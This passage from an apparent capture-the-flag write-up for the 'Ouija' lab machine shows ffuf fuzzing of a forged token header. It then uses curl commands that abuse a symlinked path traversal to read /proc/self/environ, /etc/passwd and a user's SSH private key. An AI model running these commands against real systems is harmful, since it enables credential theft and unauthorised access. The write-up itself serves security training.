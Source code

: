 ```zsh
ffuf -u http://ouija.htb:3000/users -mode pitchfork -fr '"Invalid Token"' \
    -H "ihash: IHASH" -H "identification: DATA" \
    -w ./ihash.wl:IHASH -w ./data.wl:DATA
```
{:file="bryan@htb ➤ zsh" .nolineno}

```http
GET /users HTTP/1.1
Host: ouija.htb:3000
ihash: 14be2f4a...[REDACTED]
identification: NjI2Zjc0MzEzYTYyNmY3ND...[REDACTED]

```
{:.nolineno}

with these values, we used the `/file/get`{:.filepath} route to read `/etc/hosts`{:.filepath} using the symlink at `.config/bin/process_informations` to traverse to the `/proc`{:.filepath} filesystem and read the process environment variables.

```zsh
# Confirm we can access this route
auth=(-H ihash:$ihash -H identification:$identification)
curl -s $auth "http://ouija.htb:3000/file/get"

# Read /proc/self/environ via symbolic link
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/environ" | jq -r 'select(.message)?|.message'
```
{:file="bryan@htb ➤ zsh" .nolineno}

```sh
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOME=/home/leila
LOGNAME=leila
USER=leila
SHELL=/bin/bash
INVOCATION_ID=7aadfaf386754c7b86df29d65023a176
JOURNAL_STREAM=8:22222
SYSTEMD_EXEC_PID=848
k=[REDACTED]
```
{:.nolineno}

The actual signing key is found, and we identify the current user as **leila**. We accessed the filesystem root (bypassed `^/` restriction) via the symlink at `.config/bin/process_informations/self/root`{:.filepath} > `/proc/self/root`{:.filepath} > `/`{:.filepath}. In addition, we fetched Leila's SSH private key and used it to successfully login via SSH.

```zsh
# Read /etc/passwd via symbolic link
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/root/etc/passwd" | jq -r 'select(.message)?|.message'

# Read /home/leila/.ssh/id_rsa
curl -s $auth "http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/root/home/leila/.ssh/id_rsa" | jq -r 'select(.message)?|.message' | tee leila_id_rsa
```
{:file="bryan@htb ➤ zsh" .nolineno}


[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)
